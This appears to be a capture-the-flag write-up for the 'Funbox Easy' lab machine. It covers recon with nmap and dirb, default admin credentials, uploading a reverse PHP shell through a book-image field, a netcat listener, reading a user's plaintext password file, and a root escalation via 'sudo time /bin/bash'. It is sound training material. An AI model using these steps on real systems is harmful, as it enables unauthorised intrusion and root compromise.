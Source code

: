 *Funbox Easy*

**RECON**

---
**Ip Search**  
Apache Server  
![image14](https://user-images.githubusercontent.com/66635295/159646178-ab903bdc-44d6-4fff-88a9-23279bd1bd5f.png)

**Nmap Scan**  
<pre>nmap 192.168.54.111</pre>  
 Knowing Funbox Rookie  not really expecting much from nmap. Dirb will be better  
![image11](https://user-images.githubusercontent.com/66635295/159646241-09d9fc6b-3b51-44a0-940a-10d757d6cac2.png)  
**Dirb**
<pre> dirb http:// 192.168.54.111 </pre>
![image9](https://user-images.githubusercontent.com/66635295/159838630-52b57a84-a48a-432c-99a4-82ddb3220bbf.png)  
![image13](https://user-images.githubusercontent.com/66635295/159838668-7011e6b1-ca86-4cff-a242-8c0044220ef0.png)  


**ENUMURATION**
---
**Admin Page**
<pre> Name: admin  </pre>  
<pre> Pass: admin </pre>  
Accepts basic admin credentials   
![image10](https://user-images.githubusercontent.com/66635295/159838808-74b66b91-a7dc-491c-acf8-4bc0cb6aa74a.png)  
**Add New Book**  
Notice the image files  
![image7](https://user-images.githubusercontent.com/66635295/159838890-53cb1c83-daee-45fa-8b3f-7c5078b99618.png)

**Create New Book**  
Uploading reverse PHP Shell in images    
![image2](https://user-images.githubusercontent.com/66635295/159838930-bbbd34b1-a8e8-40ce-a369-be8aa9ba5125.png)
**Shell Exploit**  
Pentest Monkey Reverse PHP    
![image1](https://user-images.githubusercontent.com/66635295/159838982-54625cd5-df41-4deb-bbf4-c9bd33f1dccd.png)
**Configure the Shell**  
Open up a Netcat listener   
<pre>nc -lvp 8000   </pre>  
![image16](https://user-images.githubusercontent.com/66635295/159839332-0c9c90df-00e4-41ff-ad32-1d4a327d6d0a.png)

**Find shell**  
Running drib on the store page it appears to be using bootstrap. Check the img directory  
![image3](https://user-images.githubusercontent.com/66635295/159839387-0001fc05-c997-4bd5-ba0d-2f49d0503191.png)  
**Image Index**  
![image4](https://user-images.githubusercontent.com/66635295/159839421-2c411dff-652c-4ade-9399-bea19d0175dc.png)

**Privilege Escalation**
---
**Reverse Shell**
Opening the php lands a reverse shell
![image6](https://user-images.githubusercontent.com/66635295/159839585-994be4ad-5c91-44d4-8e65-a76a9c628445.png)

**User Passwords**
<pre> cd home  </pre>
<pre> cd tony  </pre>
<pre> cat password.txt  </pre>
![image15](https://user-images.githubusercontent.com/66635295/159839741-f6fd75c7-e088-475c-9034-6354deebf38a.png)

**SSH tony**
<pre> ssh tony@192.168.54.111  </pre>
<pre> Password: yxcvbnmYYY  </pre>
<pre> sudo -l  </pre>
pkexec, time and mtr can help us escalate to root  
![image12](https://user-images.githubusercontent.com/66635295/159840097-6bcb2a30-ad2a-44b2-96ec-154b1eda8dae.png)  




  

**Root Escalation**
---  
**Bin Bash**  
<pre> sudo time /bin/bash  </pre>
![image5](https://user-images.githubusercontent.com/66635295/159840202-12eb4fec-fe85-491a-a72e-96897d2a1803.png)  

**Root Flag*
<pre>  cd root </pre>  
![image8](https://user-images.githubusercontent.com/66635295/159840265-0726a908-2003-4b69-b586-bfaff7585fec.png)  


**Local Flag**
<pre> cd var  </pre>
<pre> cd www  </pre> 
![image17](https://user-images.githubusercontent.com/66635295/159840340-8757eee2-6bf0-42d7-8f5f-9daf42ff61d5.png)

